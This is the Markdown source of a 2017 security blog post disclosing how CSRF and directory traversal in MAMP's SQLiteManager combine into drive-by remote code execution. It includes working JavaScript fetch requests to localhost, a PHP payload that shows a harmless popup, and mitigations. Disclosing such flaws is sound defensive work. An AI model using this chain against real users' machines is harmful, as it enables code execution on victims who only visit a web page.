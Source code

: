 ```yaml
---
layout: post
title: "Drive-by remote code execution in MAMP"
thumbnail: elephant-240.jpg
date: 2017-07-19
---
```


MAMP is an Apache, MySQL, and PHP stack for Mac OS X. It comes with SQLiteManager, which has several vulnerabilities. This post describes how to exploit these vulnerabilities to execute code when a user of MAMP visits a malicious web site.

## MAMP

MAMP is a web stack that can be installed on Mac OS X. It is typically used by web developers to test the web applications they are working on.
It installs the Apache web server, which runs on port 8888 by default. Also included are some database management programs, such as phpMyAdmin and SQLiteManager.

## SQLiteManager

[SQLiteManager](https://sourceforge.net/projects/sqlitemanager/) is a tool like phpMyAdmin for SQLite databases. It can create new databases, add tables to databases and run SQL queries on them. It has not been updated since 2013 and contains some [known](https://packetstormsecurity.com/files/134272/SQLiteManager-1.2.4-Cross-Site-Scripting.html) [vulnerabilities](http://www.cvedetails.com/vulnerability-list/vendor_id-6201/product_id-10501/year-2008/opec-1/Sqlite-Manager-Sqlite-Manager.html).

### Directory traversal

SQLiteManager can create new databases. An SQLite database is contained in a single file, and when creating the database it is possible to supply the filename for the new database. This file is then created in the directory `/Applications/MAMP/db/sqlite`. However, by adding `../` to the filename we can place the database one directory higher.

We can also use this to get a file containing PHP code in the web root. By supplying a file name like `../../htdocs/script.php`, we can place a file `script.php` in the web root. Then, using SQLiteManager, we create a table and add a row containing our PHP code. The file `script.php` will be a valid SQLite database file, containing PHP code that is run when the file is accessed.

![Create a new database in the webroot with the name script.php](/images/sqlitemanager-create-database.png "Create a new database in the webroot with the name script.php")

![Add PHP code to the file](/images/sqlitemanager-insert-phpcode.png "Add PHP code to the file")

![Accessing the script runs the PHP code](/images/sqlitemanager-run-phpinfo.png "Accessing the script runs the PHP code")

### CSRF

The SQLiteManager running on localhost cannot be accessed directly by an attacker. However, the attacker can "forge" requests if he can run Javascript in the browser. If you visit the attacker's web site he can perform the requests from within the browser, on the same computer that MAMP is installed on. These requests *can* access the SQLiteManager running on localhost. This method of bouncing requests through the victims browser is called cross site request forgery, or CSRF.

SQLiteManager does not have any CSRF protection, so the directory traversal mentioned above can also be executed using CSRF. We can issue POST requests using Javascript to create the database and add data to it, and then issue a request to the resulting file. This makes it possible to run code on a victim that has MAMP installed and enabled when the victim visits a malicious site.

For example, the following Javascript issues a request that creates a database:

    let formData = new FormData();
    formData.append("dbname", "somename");
    formData.append("dbVersion", 3);
    formData.append("dbpath", "../../htdocs/script.php");
    formData.append("action", "saveDb");

    fetch("http://localhost:8888/sqlitemanager/main.php", {
        method: "POST",
        body: formData
    });

After creating a table, we insert a payload:

    let payload = "<?php `osascript -e 'tell application (path to frontmost application as text) to display dialog \"Remote code execution on MAMP\" with icon stop'`; ?>";
    let formData = new FormData();
    formData.append("funcs[test]", "");
    formData.append("valField[test]", payload);
    formData.append("action", "saveElement");
    formData.append("currentPage", "");
    formData.append("after_save", "properties");

    return fetch("http://localhost:8888/sqlitemanager/main.php?dbsel=1&table=test", {
        method: "POST",
        body: formData
    }).catch(e => e);

The `dbsel` number is the number corresponding to the database we just created. Although we don't know this, we can just try all numbers between 0 and 50 and hope that we hit the correct one.

When we trigger a request to the file, the execution of the `osascript` command shows the popup:

![Popup is shown by running code](/images/sqlitemanager-rce-popup.png "Popup is shown by running code")

## Conclusion

By combining CSRF and directory traversal we can trigger remote code execution, if the victim just visits a web site with malicious Javascript. 

An immediate solution to this would be to disable SQLiteManager. MAMP users can do this themselves by editing `/Applications/MAMP/conf/apache/httpd.conf`. Unless someone takes over the maintenance for SQLiteManager, it is unlikely that the vulnerabilities get fixed. MAMP already has an alternative manager for SQLite available: [phpLiteAdmin](https://www.phpliteadmin.org/).

A broader solution is to disallow requests from the public Internet to private RFC1918 IP addresses. There is currently [a proposal](https://wicg.github.io/cors-rfc1918/) to refuse such requests by default, and to create a new CORS headers to explicitly allow it.
